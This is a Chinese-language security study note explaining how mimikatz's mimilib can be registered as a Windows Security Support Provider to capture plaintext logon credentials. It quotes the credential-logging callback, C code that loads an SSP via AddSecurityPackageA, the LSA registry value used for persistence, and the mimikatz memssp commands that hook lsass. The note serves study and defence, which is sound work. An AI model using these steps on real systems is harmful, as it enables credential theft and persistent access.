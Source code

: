 ```yaml
---
title: SSP与mimilib
date: 2020-12-31 23:59:47 +0800
categories: [域安全, TA0006凭据访问]
tags: [mimikatz, ssp, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




学习了以下文章，整理SSP相关笔记:

[Mimikatz中SSP的使用](https://3gstudent.github.io/3gstudent.github.io/Mimikatz%E4%B8%ADSSP%E7%9A%84%E4%BD%BF%E7%94%A8/)

[深入分析Mimikatz：SSP](https://www.anquanke.com/post/id/180001#h2-1)

[Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)



## SSPI&SSP

![img](/assets/img/1963614-20200422220757960-542959289.png)

- SSPI(Security Support Provider Interface)

这是 Windows 定义的一套接口，此接口定义了与安全有关的功能函数， 用来获得验证、信息完整性、信息隐私等安全功能，就是定义了一套接口函数用来身份验证，签名等，但是没有具体的实现。

- SSP(Security Support Provider)

 SSPI 的实现者，对SSPI相关功能函数的具体实现。微软自己实现了如下的 SSP，用于提供安全功能：

1. NTLM SSP: msv1_0.dll
2. Kerberos: kerberos.dll
3. Cred SSP
4. Digest SSP
5. Negotiate SSP
6. Schannel SSP
7. Negotiate Extensions SSP
8. PKU2U SSP

在系统层面，SSP就是一个dll，来实现身份验证等安全功能，实现的身份验证机制是不一样的。比如 NTLM SSP 实现的就是一种 Challenge/Response 验证机制。而 Kerberos 实现的就是基于 ticket 的身份验证机制。我们可以编写自己的 SSP，然后注册到操作系统中，让操作系统支持更多的自定义的身份验证方法。



## SSP的实现-mimilib

mimikatz中的[mimilib](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/mimilib.def)可以作为一个SSP来使用，mimilib通过模块定义文件.def声明了一堆导出函数，其中就有`SpLsaModeInitialize`。

```
SpLsaModeInitialize		=	kssp_SpLsaModeInitialize
```

`SpLsaModeInitialize`是SSP的初始化函数，由LSA加载自己时调用。`SpLsaModeInitialize`的主要功能是给参数*ppTables*赋值，用于告诉LSA各个回调函数的地址；*ppTables* 指向[SECPKG_FUNCTION_TABLE](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_function_table)结构体，LSA需要SSP实现的函数指针都包含在此结构体内。

![image-20201018135645727](/assets/img/image-20201018135645727.png)

mimilib SSP就实现了`SpLsaModeInitialize`及以下4个回调函数，相关实现都在[kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c)

```
SpInitialize：用来初始化SSP，提供一个函数指针列表。
SpShutDown：卸载SSP时就会被调用，以便释放资源。
SpGetInfoFn：提供SSP相关信息，包括版本、名称以及描述。
SpAcceptCredentials：接收LSA传递的明文凭据，以便SSP缓存。
```

可以看到 kssp_SpAcceptCredentials 内部实现就是将获取到的明文凭据写到kiwissp.log中，认证结果直接访问Success。

```
NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	FILE *kssp_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
	{	
		klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);
		klog_password(kssp_logfile, &PrimaryCredentials->Password);
		klog(kssp_logfile, L"\n");
		fclose(kssp_logfile);
	}
	return STATUS_SUCCESS;
}
```



## 操作SSP

### 遍历 

**EnumerateSecurityPackagesA**

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")

int main(int argc, char **argv) {
	ULONG packageCount = 0;
	PSecPkgInfoA packages;

	if (EnumerateSecurityPackagesA(&packageCount, &packages) == SEC_E_OK) {
		for (int i = 0; i < packageCount; i++) {
			printf("Name: %s\nComment: %s\n\n", packages[i].Name, packages[i].Comment);
		}
	}
}
```



### 注册

方法1: 添加注册表后重启生效

在`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages`中加入`mimilib.dll`的路径

不需要将mimilib.dll拷贝到system32目录下，路径中不包含空格就可以



方法2: 调用AddSecurityPackage

这种方法立即能生效，但为了驻留还是需要添加上述注册表，以防重启后失效。Empire中的Install-SSP.ps1就实现了这一过程。

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")


int main(int argc, char **argv) {
	SECURITY_PACKAGE_OPTIONS option;
	option.Size = sizeof(option);
	option.Flags = 0;
	option.Type = SECPKG_OPTIONS_TYPE_LSA;
	option.SignatureSize = 0;
	option.Signature = NULL;
	SECURITY_STATUS SEC_ENTRYnRet = AddSecurityPackageA(argv[1], &option);
	printf("AddSecurityPackage return with 0x%X\n", SEC_ENTRYnRet);
}
```

注: `DeleteSecurityPackageA`删除SSP不起作用，可用3gStudent的[FreeDll](https://github.com/3gstudent/Homework-of-C-Language/blob/master/FreeDll.cpp)卸载mimilib.dll



方法3: RPC通知lsass加载SSP

没太看懂，POC没编译成功，大概原理是AddSecurityPackage的内部实现也是通过RPC调用，所以XPN使用了这个方法



## misc::memssp

这种方法也可以dump 明文凭据，原理是hook msv1_0.dll`的`SpAcceptCredentials函数，将凭据写入mimilsa.log中。

这种方式下，hook代码通过WriteProcessMemory被拷贝到`lsass`中，对lsass进程做写操作容易被检测到；相比添加SSP的方法，不需要dll落地，不需要添加注册表；

```
privilege::debug
misc::memssp
```





